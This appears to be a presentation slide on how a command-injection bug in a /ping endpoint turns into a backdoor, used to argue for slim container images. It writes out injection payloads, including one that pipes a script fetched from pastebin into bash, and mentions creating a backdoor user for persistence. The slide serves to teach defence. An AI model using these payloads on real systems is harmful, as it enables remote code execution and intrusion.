

# How one bug becomes a backdoor ?
Vulnerable app
Endpoint: /ping?ip=<user-supplied>
Bug: Input is passed directly to the shell with no validation

Fat – Slim Images
Tools: shell, package manager, system utilities
More-tools : More ways attacker can exploit vulnerabilities

Killchain – attack flow
Discover the endpoint: /ping?ip=127.0.0.1
Execute commands: Check’s if curl is present /ping?ip=127.0.0.1;dpkg --get-selections
Download & run malicious script: /ping?ip=127.0.0.1;curl https://pastebin.com/raw/jsBbM758 | bash
Persist:  create backdoor user / install shell